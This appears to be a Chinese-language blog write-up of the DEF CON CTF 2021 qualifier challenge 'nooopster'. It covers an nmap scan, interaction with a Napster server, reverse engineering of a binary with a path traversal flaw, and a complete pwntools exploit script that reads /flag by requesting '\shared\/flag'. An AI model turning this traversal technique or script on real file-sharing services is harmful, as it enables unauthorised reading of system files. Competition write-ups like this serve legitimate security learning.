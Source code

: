 ```yaml
---
title: defcon ctf 2021 quals - nooopster
date: 2022-01-23 05:31:09
tags:
- defcon ctf 2021 quals
- pwn
---
```


# nooopster

![](BT4KL7X.png)

![](Z1zFFtl.png)

![](8tJ74WV.png)

## 偵蒐階段

進入內網後對 **192.168.5.1** 進行掃描。得到以下結果

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-23 06:08 CST
Nmap scan report for 192.168.5.1
Host is up (0.011s latency).

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.47 seconds

```

跟這兩個 port 進行互動沒得到什麼資訊，拿 **napster** 這個字眼跟題目很像的名字進行搜尋，發現這個 [client](http://nap.sourceforge.net/) ，載下來後跟 port 7070 互動，但發現沒有效果，嘗試用一樣的程式跟 port 8888 互動得到了響應。[Linux Napster Client: User Guide](http://nap.sourceforge.net/userguide.html) 這裡提供跟 napster server 互動的所有指令。

![](62rKHoR.png)

以下我執行了這些指令。

```bash
# 列出所有頻道
/clist

# 進入 chat 頻道
/join #chat

# 列出 nooopster 這個用戶提供的檔案清單
/browse nooopster
```

清單中有一個非 mp3 的檔案，載下來之後發現這是一隻 elf 格式的程式。我們開始嘗試逆它。

![](Jbt611q.png)

## 逆向

分析整體流程可以大約分為以下幾個階段: 

1. 連線到 127.0.0.1:8888 ， 並且檢查 napser server 上有沒有 **nooopster** 這個用戶，若沒有的話，以 **nooopster** 為用戶名登入。
2. 創建一條 thread 並且在裡面創建 data server (負責用來上傳檔案到 nooopster server 或是讓其他用戶直接下載檔案) 在 0.0.0.0:7070 監聽。
   1. 收到用戶連線後，創建一條 thread 負責處理此用戶的請求，先檢查用戶是否在下載請求的清單中，如果在的話，接者檢查要求的檔案名稱是否以字串 **"\shared\\"** 作為開頭，若通過檢查，接者會把字串 **"\shared\\"** 以後檔案名稱作為字串傳入 `open` 中。例如用戶要求下載 **"\shared\\/etc/passwd"**，則最後得到的結果會是 `open("/etc/passwd","r")`。 這裡很明顯有**路徑穿越的漏洞**，可以利用這個漏洞去讀 **"/flag"**。
3. main thread 接者會不斷的重複傳送幾條提示用的訊息到 napster server 中的頻道 chat 中，以及接收來自 napster server 的檔案下載請求 ( 其他用戶的下載請求 )，這裡不做任何檢查，**直接把用戶名加入下載請求的清單中**。



分析完後可以很明顯的發現，這是一隻根據 napster 的 protocol 實作出來的簡易 client，且帶有**路徑穿越的漏洞**，讓我們能夠下載任意檔案。

## 利用腳本

詳細的 protocol 細節在逆向 nooopster 這支 binary 的時候，有搜尋到對應的 [specification](http://opennap.sourceforge.net/napster.txt)，照著上面內容實作跟 server 互動的封包即可。

```python
from pwn import *
import ipaddress

user = "test"
def to_nap_format(opcode, content):
    return p16(len(content)) + p16(opcode) + content

def nap_msg_send(s, opcode, content):
    s.send(to_nap_format(opcode, content))

def nap_msg_recv(s):
    tmp = s.recvn(4, timeout = 0.5)
    if not tmp:
        return None  
    n = u16(tmp[:2])
    opcode = u16(tmp[2:])
    
    return {"op": opcode, "data":s.recvn(n)}

nap_server = remote("192.168.5.1", 8888)

# 檢查 napster server 上是否有這個用戶名
nap_msg_send(nap_server, 7, user.encode())
msg = nap_msg_recv(nap_server)
print(msg)

# 登入伺服器
nap_msg_send(nap_server, 2, f"{user} test 0 \"nap v0.8\" 3".encode())
msg = nap_msg_recv(nap_server)
print(msg)

# 接收一些伺服器資訊
while 1:
    msg = nap_msg_recv(nap_server)
    if not msg:
        break

# 請 napster server 向 nooopster 請求我們下載檔案的請求
nap_msg_send(nap_server, 203, b"nooopster \"\\shared\\nooopster\"") 
msg = nap_msg_recv(nap_server)
print(msg)
tmp = msg["data"].split(b' ')

# nooopster 接受下載後 napster server 會回覆我們 nooopster's 的 data server 的地址和端口
ip = str(ipaddress.IPv4Address(u32(p32(int(tmp[1])), endian = "big")))
port = int(tmp[2])

# 直接觸發路徑穿越漏洞去讀取 flag
data_server = remote(ip, port)
print(data_server.recv())
target_file = "/flag"
data_server.send(f"GET{user} \"\\shared\\{target_file}\" 0".encode())

print(data_server.recvall().decode())
nap_server.close()
data_server.close()
```



# resource 

[Linux Napster Client: User Guide](http://nap.sourceforge.net/userguide.html#4.2.)

[napster protocol](http://opennap.sourceforge.net/napster.txt)
